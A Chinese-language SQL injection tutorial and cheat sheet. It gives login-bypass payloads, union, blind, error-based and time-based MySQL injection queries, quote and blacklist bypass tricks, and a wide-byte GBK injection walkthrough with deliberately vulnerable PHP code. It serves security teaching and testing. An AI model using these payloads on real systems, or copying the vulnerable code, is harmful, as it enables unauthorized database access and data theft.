






## 基本概念

-   SQL 注入是一种将 SQL 代码插入或添加到应用（用户）的输入参数中，之后再讲这些参数传递给后台的 SQL 服务器加以解析并执行的攻击。
-   攻击者能够修改 SQL 语句，该进程将与执行命令的组件（如数据库服务器、应用服务器或 WEB 服务器）拥有相同的权限。
-   如果 WEB 应用开发人员无法确保在将从 WEB 表单、cookie、输入参数等收到的值传递给 SQL 查询（该查询在数据库服务器上执行）之前已经对其进行过验证，通常就会出现 SQL 注入漏洞。

## 常用工具

-   Burp Suite：[Burp Suite 使用介绍](http://static.hx99.net/static/drops/tools-1548.html)
-   Tamper Data (Firefox addon)
-   HackBar (Firefox addon)
-   sqlmap：[sqlmap 用户手册](http://static.hx99.net/static/drops/tips-143.html)

## 注入常见参数

-   `user()`：当前数据库用户
-   `database()`：当前数据库名
-   `version()`：当前使用的数据库版本
-   `@@datadir`：数据库存储数据路径
-   `concat()`：联合数据，用于联合两条数据结果。如 `concat(username,0x3a,password)`
-   `group_concat()`：和 `concat()` 类似，如 `group_concat(DISTINCT+user,0x3a,password)`，用于把多条数据一次注入出来
-   `concat_ws()`：用法类似
-   `hex()` 和 `unhex()`：用于 hex 编码解码
-   `load_file()`：以文本方式读取文件，在 Windows 中，路径设置为 `\\`
-   `select xxoo into outfile '路径'`：权限较高时可直接写文件

## 语法参考与小技巧

### 行间注释

-   `--`

    ```sql
    DROP sampletable;--
    ```

-   `#`

    ```sql
    DROP sampletable;#
    ```

### 行内注释

-   `/*注释内容*/`

    ```sql
    DROP/*comment*/sampletable`   DR/**/OP/*绕过过滤*/sampletable`   SELECT/*替换空格*/password/**/FROM/**/Members
    ```

-   `/*! MYSQL专属 */`

    ```sql
    SELECT /*!32302 1/0, */ 1 FROM tablename
    ```

### 字符串编码

-   `ASCII()`：返回字符的 ASCII 码值
-   `CHAR()`：把整数转换为对应的字符

## 后台万能密码

-   `admin' --`
-   `admin' #`
-   `admin'/*`
-   `' or 1=1--`
-   `' or 1=1#`
-   `' or 1=1/*`
-   `') or '1'='1--`
-   `') or ('1'='1--`
-   以不同的用户登陆 `' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

## 注入语句备忘

### 数据库名

```sql
SELECT database();
SELECT schema_name FROM information_schema.schemata;
```

### 表名

-   union 查询

    ```sql
    --MySQL 4版本时用version=9，MySQL 5版本时用version=10
    UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;   /* 列出当前数据库中的表 */
    UNION SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();   /* 列出所有用户自定义数据库中的表 */
    SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema!='information_schema' AND table_schema!='mysql';
    ```

-   盲注

    ```sql
    AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
    ```

-   报错

    ```sql
    AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));
    -- 在5.1.5版本中成功。
    ```

### 列名

-   union 查询

    ```sql
    UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'
    ```

-   盲注

    ```sql
    AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
    ```

-   报错

    ```sql
    -- 在5.1.5版本中成功
    AND (1,2,3) = (SELECT * FROM SOME_EXISTING_TABLE UNION SELECT 1,2,3 LIMIT 1)
    -- MySQL 5.1版本修复了
    AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT 1)));
    ```

-   利用 `PROCEDURE ANALYSE()`

    ```sql
    -- 这个需要 web 展示页面有你所注入查询的一个字段
    -- 获得第一个段名
    SELECT username, permission FROM Users WHERE id = 1; 1 PROCEDURE ANALYSE()
    -- 获得第二个段名
    1 LIMIT 1,1 PROCEDURE ANALYSE()
    -- 获得第三个段名
    1 LIMIT 2,1 PROCEDURE ANALYSE()
    ```

### 根据列名查询所在的表

```sql
-- 查询字段名为 username 的表
SELECT table_name FROM information_schema.columns WHERE column_name = 'username';
-- 查询字段名中包含 username 的表
SELECT table_name FROM information_schema.columns WHERE column_name LIKE '%user%';
```

### 绕过引号限制

```sql
-- hex 编码
SELECT * FROM Users WHERE username = 0x61646D696E
-- char() 函数
SELECT * FROM Users WHERE username = CHAR(97, 100, 109, 105, 110)
```

### 绕过字符串黑名单

```sql
SELECT 'a' 'd' 'mi' 'n';
SELECT CONCAT('a', 'd', 'm', 'i', 'n');
SELECT CONCAT_WS('', 'a', 'd', 'm', 'i', 'n');
SELECT GROUP_CONCAT('a', 'd', 'm', 'i', 'n');
```

使用 `CONCAT()` 时，任何个参数为 null，将返回 null，推荐使用 `CONCAT_WS()`。`CONCAT_WS()`函数第一个参数表示用哪个字符间隔所查询的结果。

### 条件语句

`CASE`, `IF()`, `IFNULL()`, `NULLIF()`.

```sql
SELECT IF(1=1, true, false);
SELECT CASE WHEN 1=1 THEN true ELSE false END;
```

### 延时函数

`SLEEP()`, `BENCHMARK()`.

```sql
' - (IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false)) - '
```

### order by 后的注入

`order by` 由于是排序语句，所以可以利用条件语句做判断，根据返回的排序结果不同判断条件的真假。一般带有 `order` 或者 `order by` 的变量很可能是这种注入，在知道一个字段的时候可以采用如下方式注入：

原始链接：`http://www.test.com/list.php?order=vote`

根据 `vote` 字段排序。找到投票数最大的票数 `num` 然后构造以下链接：

```
http://www.test.com/list.php?order=abs(vote-(length(user())>0)*num)+asc
```

看排序是否变化。还有一种方法不需要知道任何字段信息，使用 `rand` 函数：

```
http://www.test.com/list.php?order=rand(true)
http://www.test.com/list.php?order=rand(false)
```

以上两个会返回不同的排序，判断表名中第一个字符是否小于 128 的语句如下：

```
http://www.test.com/list.php?order=rand((select char(substring(table_name,1,1)) from information_schema.tables limit 1)<=128))
```

### 宽字节注入

#### 了解宽字节注入 ####

首先我们了解下宽字节注入，宽字节注入主要是源于程序员设置数据库编码与`PHP`编码设置为不同的两个编码那么就有可能产生宽字节注入

例如说PHP的编码为`UTF-8`而`MySql`的编码设置为了

`SET NAMES 'gbk'`或是`SET character_set_client =gbk`，这样配置会引发编码转换从而导致的注入漏洞。

这里要说明一小点的是：

SET NAMES 'x'语句与这三个语句等价：

    mysql>SET character_set_client =x;
    mysql>SET character_set_results =x;
    mysql>SET character_set_connection =x;

也就是说你设置了`SET NAMES 'x'`时就等于同时执行了上面的3条语句

而我认为的宽字节注入就是PHP发送请求到MySql时使用了语句

`SET NAMES 'gbk'`或是`SET character_set_client =gbk`进行了一次编码，但是又由于一些不经意的字符集转换导致了宽字节注入

#### 宽字节注入原理 ####

1：在我们正常情况下使用`addslashes`函数或是开启`PHPGPC`（注：在php5.4已上已给删除，并且需要说明特别说明一点，

`GPC`无法过滤`$_SERVER`提交的参数）时过滤`GET、POST、COOKIE、REQUSET`提交的参数时，

黑客们使用的预定义字符会给转义成添加反斜杠的字符串如下面的例子

**例子：**

    单引号（'）= （\'）
    双引号（"） = （\"）
    反斜杠（\） = （\\）

2：假如这个网站有宽字节注入那么我们提交：

    http://127.0.0.1/unicodeSqlTest?id=%df%27

这时,假如我们现在使用的是`addslashes`来过滤,那么就会发生如下的转换过程

**例子：**

    %df%27===(addslashes)===>%df%5c%27===(数据库GBK)===>運'

这里可能有一些人没看懂，我可以粗略的解释一下。

前端输入`%df%27`时首先经过上面`addslashes`函数转义变成了`%df%5c%27（%5c是反斜杠\)`，之后在数据库查询前因为设置了GBK编码，

即是在汉字编码范围内两个字节都会给重新编码为一个汉字。然后MySQL服务器就会对查询语句进行GBK编码即是%df%5c转换成了汉字運，

而单引号就逃逸了出来，从而造成了注入漏洞。

干这样看我们可能也没能很清楚的看懂，我们可以来几个例子：

**例子1：**

在PHP中使用`$pdo->query('set names gbk')`;指定三个字符集（客户端、连接层、结果集）都是GBK编码。而PHP的编码等于UTF-8编码时造成的宽字节注入

**例子代码：**

    <?php 
    
    if( !isset($_GET['id']) ){
    	echo "Error:ID NULL";
    }
    
    $id=addslashes($_GET['id']);//获取id并且转移与定义字符
    
    //分别对应的是 地址，端口号，连接的数据库
    $dsn = "mysql:host=127.0.0.1; port=3306; dbname=blog;";
    
    //账号
    $user = 'root';
    
    //密码
    $psw = 'root';
    
    //连接到MySQL
    $pdo = new PDO($dsn,$user,$psw);
    
    //准备执行的sql语句
    $sql = 'SELECT * FROM tp_category WHERE id ='."'{$id}'";
    echo $sql;
    echo '<br/>';
    echo '<br/>';
    
    //设置编码
    
    $pdo->query('set names gbk');
    $res = $pdo->query($sql) or var_dump($pdo->errorInfo());
    
    $mon = $res->fetch(PDO::FETCH_ASSOC);
    var_dump( $mon );
    
     ?>


那么如何逃过`addslashes`的限制呢？`addslashes`函数产生的效果就是，让'变成\'，让单双引号变得不再是'单双引号'，只是一撇而已。

一般绕过方式就是，想办法处理掉\'前面的\：

    1.想办法给\ 前面再加一个\，变成\\'，这样\被转义了， ' 逃出了限制
    2.想办法把\弄没有。

我们这里的宽字节注入是利用mysql的一个特性，mysql在使用GBK编码的时候，会认为两个字符是一个汉字（前一个ascii码要大于128，

才到汉字的范围）。根据这个我们在地址栏输入%df%27看看会发生什么：






我们可以看到，页面已经报错了。看到报错，说明这句sql语句出错，说明我们已经绕过了`addslashes`那么就可以正常的进行注入了。

我们只是在`%27`前面加了一个`%df`为什么就报错了？而且从上图中可以看到，报错的原因是多了一个单引号，而单引号前面的反斜杠已经不见了。

这就是`mysql`的特性，因为`gbk`是多字节编码，他认为两个字节代表一个汉字，所以%df和后面的\也就是%5c变成了一个汉字運，而'逃逸了出来,导致了注入。

**例子2：**

使用set names UTF-8指定了UTF-8字符集，并且也使用转义函数进行转义。有时候在程序运行的时候，为了避免乱码，

会将一些用户提交的GBK字符使用`iconv函数（或mb_convert_encoding）`先转为`UTF-8`，然后再拼接SQL语句带入数据库。

**例子代码：**













**转换过程：**

    %df%27===(addslashes)===>%df%5c%27===(iconv)===>%e5%5c%5c%27

`$id =iconv('GBK','UTF-8', $id)`;如果内容是utf8编码的，将自动转成gbk编码的. 錦的utf-8编码是0xe98ca6，它的gbk编码是`0xe55c`。

 有的同学可能就领悟了。`\`的ascii码正是`5c`。那么，当我们的**錦**被`iconv`从`utf-8`转换成`gbk`后，变成了`%e5%5c`，

而后面的`’`被`addslashes`变成了`%5c%27`，这样组合起来就是`%e5%5c%5c%27`，两个`%5c`就是`\`，正好把反斜杠转义了，导致`’`逃逸出单引号，产生注入。

从上面的介绍中可以看出，宽字节注入的关键点有两个：

**（1） 需要将数据库编码与PHP编码设置为不同的两个编码那么就有可能产生宽字节注入；**

**（2） 设置的宽字符集可能吃掉转义符号\（对应的编码为0x5c，即低位中包含正常的0x5c就行了）。**

[浅析宽字节注入](https://miraitowa2.top/2018/12/08/%E6%B5%85%E6%9E%90%E5%AE%BD%E5%AD%97%E8%8A%82%E6%B3%A8%E5%85%A5/)


## 参考资料

-   [SQL 注入速查表](http://static.hx99.net/static/drops/tips-7840.html)
-   [MySQL 注入技巧](http://static.hx99.net/static/drops/tips-7299.html)
-   [MySQL 注入科普](http://static.hx99.net/static/drops/tips-123.html)
-   [MySQL 注入总结](http://www.91ri.org/4073.html)
-   [《SQL 注入攻击与防御》](http://product.dangdang.com/23364650.html)
